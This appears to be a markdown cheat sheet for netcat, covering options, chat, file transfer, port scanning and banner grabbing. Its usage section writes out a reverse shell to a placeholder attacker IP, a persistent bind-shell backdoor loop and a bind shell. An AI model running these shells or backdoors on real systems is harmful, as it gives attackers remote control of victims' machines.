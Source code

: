 #command 

**Netcat (`nc`)** is used to **read from and write to network connections** using **TCP** or **UDP**. It is often called the **Swiss Army Knife of Networking** because it can be used for:
```sh
nc [options] <host> <port>
```
- `<host>` → The target IP or domain name.
- `<port>` → The port number to connect to.
---
# **Options**

| Option      | Long Option           | Description                                              |
| ----------- | --------------------- | -------------------------------------------------------- |
| `-l`        | `--listen`            | Listen mode (waits for incoming connections).            |
| `-p <port>` | `--port <port>`       | Specify the port number to use.                          |
| `-v`        | `--verbose`           | Verbose mode (shows connection details).                 |
| `-vv`       | `--verbose --verbose` | Very verbose mode (more detailed output).                |
| `-n`        | `--numeric-only`      | Do not resolve hostnames (avoids DNS lookups).           |
| `-w <sec>`  | `--wait <sec>`        | Set timeout for connections. (in seconds).               |
| `-u`        | `--udp`               | Use UDP instead of TCP.                                  |
| `-z`        | `--zero`              | Scan mode (does not send data, used for port scanning).  |
| `-e <cmd>`  | `--exec <cmd>`        | Execute a command upon connection.                       |
| `-q <sec>`  | `--quit <sec>`        | Quit after EOF on stdin and timeout.                     |
| `-c <cmd>`  | `--sh-exec <cmd>`     | Run a shell command and send output over the connection. |
| `-k`        | `--keep-open`         | Keep listening after client disconnects.                 |
| `-i <sec>`  | `--interval <sec>`    | Interval between sending lines.                          |

---
# **Usage**

### **Chat Between Two Machines**
```sh
# On Machine A (listening server)
$ nc -lp 5000

# On Machine B (client)
$ nc <Machine_A_IP> 5000
```
Now both machines can chat in real-time.
### **File Transfer**
```bash
# Transfer a file (receiver)
$ nc -lvp 2200 > file.txt

# Transfer a file (sender)
$ nc 192.168.1.12 2200 < file.txt
$ cat file.txt | nc 192.168.1.12 1234 # Alternative

# Transfer a File (Sender - Progress Bar)
$ pv file.txt | nc <receiver_IP> 1234
54.0 B 0:00:00 [1.61MiB/s] [===================>] 100%
```

### **Port Scanning with Netcat**
```sh
# Scan Ports 20-100 on a Host
$ nc -zv 192.168.1.5 20-100
Connection to 192.168.1.5 22 port [tcp/ssh] succeeded!
Connection to 192.168.1.5 80 port [tcp/http] succeeded!

# Scan one port
$ nc -zv 192.168.1.5 203
nc: connect to 192.168.1.5 23 (tcp) failed: Connection refused
```
### **Banner Grabbing (Service Detection)**
```sh
# Get SMTP Banner
$ nc -v 192.168.1.1 25
Connection to 192.168.1.1 25 port [tcp/smtp] succeeded!
220 mail.example.com ESMTP Postfix
```
### **Creating a Reverse Shell**
```sh
# On the Attacker's Machine (Listening for a Connection)
$ nc -lp 4444 

# On the Victim's Machine (Sending a Shell Back)
$ nc <attacker_IP> 4444 -e /bin/bash
```
- `-e /bin/bash` → Executes `/bin/bash` on the target machine.
Now, the attacker has **shell access**.

---

```bash
# Execute a command remotely (reverse shell)
$ nc -e /bin/bash <attacker-ip> 4444
(Attacker receives shell access)

# UDP listener on port 5000
$ nc -ulvp 5000
Listening on [any] 5000 (UDP) ...

# Port scanning (scan ports 20-100 on a target)
$ nc -zv <target-ip> 20-100
(Shows open ports)

# Chat between two machines (listener)
$ nc -lvp 2200

# Chat between two machines (client)
$ nc <target-ip> 2200
(Whatever one types is received by the other)

# Send a message to a listening server
$ echo "Hello" | nc <target-ip> 2200

# Create a persistent backdoor
$ while true; do nc -lvp 4444 -e /bin/bash; done

# Bind shell (server listens, attacker connects)
$ nc -lvp 4444 -e /bin/bash
(Attacker connects to <target-ip>:4444 for shell access)
```
### **Running a TCP Server**
```bash
# Simple TCP server (listens on port 2200)
$ nc -lvp 2200
Listening on [any] 2200 ...

# Connect to a server (192.168.1.3) on port 2200
$ nc 192.168.1.3 2200 

# Server will close after 15 seconds
$ nc -lw 15 -p 2200
```
### **Connecting to a Server (Basic TCP Client)**
You can use Netcat to manually connect to a **remote service** over TCP.
```sh
# Connect to a Web Server (Port 80)
$ nc example.com 80
```
Then type:
```
GET / HTTP/1.1
Host: example.com
```
(Press **Enter** twice to send the request.)  
It will return the HTTP response from the server.

---
# **Netcat Alternatives**
- **Nmap** (for advanced port scanning)
- **socat** (more powerful alternative)
- **Telnet** (for basic connections)
- **OpenSSL** (for encrypted connections)
---
# **Installation**
```sh
sudo pacman -S gnu-netcat -y
sudo apt install netcat -y
sudo dnf install nc -y
sudo yum install nc -y
brew install netcat
```
- **Windows (via Nmap's Ncat)**:  
    Download Nmap (includes `ncat`) from [nmap.org](https://nmap.org/download.html).

---
# **Differences Between `nc`, `ncat`, `socat`**

|Tool|Features|
|---|---|
|`nc` (Netcat)|Basic networking tool, lightweight but lacks encryption.|
|`ncat` (from Nmap)|Secure version with SSL/TLS, proxy support, and logging.|
|`socat`|More advanced, allows bidirectional data streams, tunneling, and file transfers.|
# **Etymology**
Netcat is called **"netcat"** because it acts like the **network version of the Unix "cat" command**.
1. **"Net"** – It works over the network (TCP/UDP).
2. **"Cat"** – In Unix, `cat` is used to read/write data from files or input/output streams. Netcat does the same but over network connections.
Essentially, **Netcat** allows reading/writing raw data between network sockets, just like `cat` does with files. This makes it useful for port scanning, file transfers, remote execution, and debugging.